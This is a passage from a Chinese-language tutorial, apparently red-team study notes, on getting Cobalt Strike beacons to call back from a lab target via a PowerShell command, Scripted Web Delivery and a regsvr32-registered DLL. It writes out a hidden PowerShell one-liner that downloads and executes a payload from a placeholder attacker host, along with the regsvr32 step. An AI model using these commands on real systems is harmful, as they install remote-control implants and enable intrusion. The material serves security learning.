



**Stageless 上线是没有web日志的**

## 8.4powershell command上线



选择对应的监听器 , 选择powershell command命令



将生成的 payload.txt中的命令复制 , 然后在靶机中执行



执行powershell命令，成功上线。



## 8.5Scripted Web Delivery（S)上线

web投毒
攻击 --> web钓鱼 --> web投递



第二步输入配置 ， 生成





```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://IPS:1234/a'))"
```

本质上也是通过powershell远程加载上线 , 但是稍微有点不同 , 这中攻击方式是攻击者在cs服务器上开启一个web站点 , 然后靶机中运行powershell命令去该站点 , 发起请求 , 然后响应的内容作为powershell要执行的命令 , 执行,属于payload远程加载执行的一种方式


在靶机命令行中输入生成的命令。



上线成功



## 8.6DLL文件上线

攻击 --> 生成后门 ---> windows exe , 生成dll文件





将生成的dll文件上传到靶机 ， 然后在靶机注册dll文件上线

```
regsvr32 artifact.dll
```

> regsvr32 是一个Windows命令行工具，用于注册和取消注册DLL（动态链接库）和OCX（ActiveX 控件）文件。通过使用regsvr32，你可以将某个DLL文件注册到系统中，使其能够被其他程序调用。
> 
> 这个命令的作用是尝试将名为 artifact.dll 的DLL文件注册到系统中。执行该命令后，Windows会调用该DLL文件中的 DllRegisterServer 函数，以便将其注册到Windows注册表中，允许系统和其他应用程序使用这个DLL文件中的功能。

<br/>



成功上线



补充：

> 在windows中可执行文件 , 不是只有.exe文件 , .dll文件和.com文件也都是可执行文件